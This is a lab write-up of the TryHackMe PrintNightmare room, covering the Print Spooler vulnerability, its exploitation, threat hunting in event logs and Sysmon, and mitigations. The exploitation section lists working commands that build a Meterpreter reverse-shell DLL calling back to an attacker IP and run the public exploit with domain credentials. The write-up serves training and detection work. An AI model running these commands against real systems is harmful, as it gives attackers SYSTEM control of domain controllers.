


# PrintNightmare — TryHackMe

| | |
|---|---|
| **Platform** | TryHackMe |
| **Difficulty** | Medium |
| **OS** | Windows (Active Directory) |
| **Status** | ✅ Room explicitly aimed at write-ups/beginners |
| **Key techniques** | PrintNightmare (CVE-2021-1675 / CVE-2021-34527), malicious printer-driver DLL delivery via SMB, Windows Event Log / Sysmon threat hunting |

---

## TL;DR

A dual offense-and-defense room built around **PrintNightmare** — a
vulnerability in the Windows Print Spooler service that lets an
authenticated user (any domain user, since the spooler runs by default on
every workstation and every domain controller) push a malicious "printer
driver" DLL that the spooler loads and executes with `SYSTEM` privileges.
The room walks through exploiting it with a public tool against a domain
controller, then switches hats entirely to hunt for the same attack's
artifacts in Windows Event Logs and Sysmon telemetry.

---

## Background

The Print Spooler service is enabled by default on effectively every
Windows host, including domain controllers (which use it for printer
pruning across the domain). PrintNightmare covers two related CVEs:
**CVE-2021-1675**, initially classified as a local privilege escalation
issue, and **CVE-2021-34527**, a follow-up disclosure showing the same
underlying flaw is exploitable **remotely** — an attacker with any
authenticated domain access, not local console access, can trigger it.

The vulnerable function (`RpcAddPrinterDriverEx`, exposed over MS-RPRN/
MS-PAR) fails to properly validate the driver package it's told to install,
allowing an attacker-supplied DLL to be loaded and executed as SYSTEM.

---

## Exploitation

The general flow, using the public `CVE-2021-1675` exploit and a
Metasploit handler:

1. Build a malicious DLL payload (a Meterpreter reverse-shell DLL via
   `msfvenom`) and host it on an SMB share the attacker controls.
2. Stand up a Metasploit multi/handler configured for the same
   payload/listener.
3. Confirm the target is exposed by checking whether the vulnerable RPC
   interfaces (MS-RPRN / MS-PAR) are reachable (`rpcdump.py`).
4. Run the exploit against the domain controller with a **low-privileged
   domain credential** — authenticated, not administrative — pointing it at
   the DLL hosted on the attacker's SMB share.

```bash
git clone https://github.com/cube0x0/CVE-2021-1675.git
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f dll -o payload.dll
smbserver.py share /path/to/dll/dir -smb2support
python3 CVE-2021-1675.py <DOMAIN>/<user>:<password>@<TARGET_IP> '\\<ATTACKER_IP>\share\payload.dll'
```



The vulnerable print spooler process connects back to the attacker's SMB
share to fetch the "driver" and loads it, executing the DLL as **SYSTEM**
on the domain controller — the exploit's danger comes precisely from
requiring no local access and no elevated starting privilege at all.

---

## Threat Hunting / Detection

The room then reframes the same attack from a defender's perspective,
walking through the Windows Event Log and Sysmon artifacts a PrintNightmare
attack leaves behind:

- **`Microsoft-Windows-PrintService/Operational`** (Event ID 316) logs new
  or updated printer driver files being added — the direct artifact of the
  malicious "driver" being installed.
- **`Microsoft-Windows-PrintService/Admin`** (Event ID 808) flags a failed
  or suspicious driver registration attempt.
- **Sysmon Event ID 3** (network connection) and **Event ID 11** (file
  creation) around `spoolsv.exe`'s driver directory
  (`%WINDIR%\System32\spool\drivers\x64\3\`) catch the dropped DLL and any
  outbound connection it makes.
- **`spoolsv.exe` spawning `rundll32.exe`** as a child process — normal
  print spooler operation never does this — is one of the highest-signal
  behavioral indicators.
- Mimikatz-based exploitation of the same vulnerability leaves a
  distinctive fake printer driver name registered in the system.

The practical exercise involved being handed a compromised host's logs and
working through them methodically: confirming the vulnerable DLL drop
location, identifying the specific event IDs that fired, tracing the
resulting outbound shell connection through Sysmon network-connection
events, and pinpointing the attacker's source IP and the exact file
creation timestamp for the malicious driver.



---

## Mitigation

Microsoft's guidance (beyond installing the security patches released in
July 2021) includes:

- Disabling the Print Spooler service entirely where printing isn't
  required — this fully removes the attack surface, at the cost of losing
  local and remote printing.
- Disabling inbound remote printing via Group Policy
  (`Computer Configuration → Administrative Templates → Printers → Allow
  Print Spooler to accept client connections`) — blocks the remote vector
  while still allowing local printing to directly attached devices.
- Confirming the `PointAndPrint` registry policy keys
  (`NoWarningNoElevationOnInstall`, `UpdatePromptSettings`) are not set to
  values that suppress the elevation prompt for driver installation.

---

## Lessons Learned

- **A vulnerability's "local" classification can change once further
  research reveals a remote trigger path** — CVE-2021-1675 and
  CVE-2021-34527 are the same underlying bug with two different disclosed
  attack vectors, and treating them as unrelated undercounts the real risk.
- **Domain controllers running default services (like the Print Spooler)
  are not automatically low-risk just because "no one prints from a DC"** —
  the service being enabled by default is itself the exposure.
- **Detection engineering benefits from understanding the exploit
  mechanically** — knowing exactly which registry path, event log, and
  child-process relationship the exploit touches is what makes a detection
  rule precise rather than a generic "printer errors" alert.

---

## Tools used

- CVE-2021-1675 PoC
- `msfvenom`, Metasploit multi/handler
- Impacket (`smbserver`, `rpcdump`)
- Windows Event Viewer, Sysmon

---

**See also:** [Windows privilege escalation methodology](../../methodology/windows-privesc.md)

---

**Room:** [TryHackMe — PrintNightmare](https://tryhackme.com/room/printnightmare)
